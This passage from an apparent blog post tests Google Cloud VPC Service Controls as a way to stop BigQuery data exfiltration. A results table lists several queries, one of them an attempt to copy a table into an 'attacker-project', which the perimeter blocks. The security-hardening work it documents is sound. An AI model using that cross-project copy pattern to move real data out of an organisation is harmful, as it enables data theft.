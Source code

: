 This time, I got a big red error in the results panel `VPC Service Controls: Request is prohibited by the organisation's policy. vpcServiceControlsUniqueIdentifier: ....`

<figure markdown="span">
 ![Red error message when the exfiltration query is attempted](./assets/vpcsc_perim_4.webp)
 <figcaption>Exfiltration query now fails</figcaption>
</figure>

I can still run normal SQL queries inside the project, but I can't access any resources outside the project, including querying other data in my organisation!

### Two projects in a perimeter

I suspect the policy as it stands is too restrictive to be useful, as I can't query any datasets from other projects in the org as it stands. It seems that a pragmatic starting point for a simple organisation like this is a perimeter around the org into which I can put projects so that they can interact with one another but not the outside world. This seems to be a straightforward update to my setup.

I go back and add a second project `other-project` to my organisation `test` perimeter. Then, I update the `VPC accessible services` to `all services`. After a minute to settle, I try a few experiments from `victim-project`. I am running as the owner of the projects that are in my orgnisation, so IAM will allow it, only VPC service controls can stop it.

|Test|SQL|Result|
|----|---|------|
|query a table in a dataset in `other-project`?|`SELECT * FROM other-project.example.test`|Yes|
|query a table in a dataset in `pypi-vulns`, in my org but outside the perimeter?|`SELECT COUNT(1) FROM pypi-vulns.published_us.vulnerable_downloads_overall`|No, prohibited by policy|
|query a table in `bigquery-public-data`?|`SELECT COUNT(1) FROM bigquery-public-data.usa_names.usa_1910_2013`|No, prohibited by policy|
|exfiltrate to `attacker-project`?|`CREATE OR REPLACE TABLE attacker-project-428619.attacker_dataset.leak_it AS SELECT 1 AS dummy`|No, prohibited by policy|

This seems like a decent starting point!

> Shout-out to this [Medium article giving a more IaC treatment, that mentioned how to use the identifier provided with deny messages to see why it was denied](https://medium.com/@bigface00/guarding-bigquery-enhancing-data-security-with-vpc-service-control-cd2fb37094a2). Very useful facility!
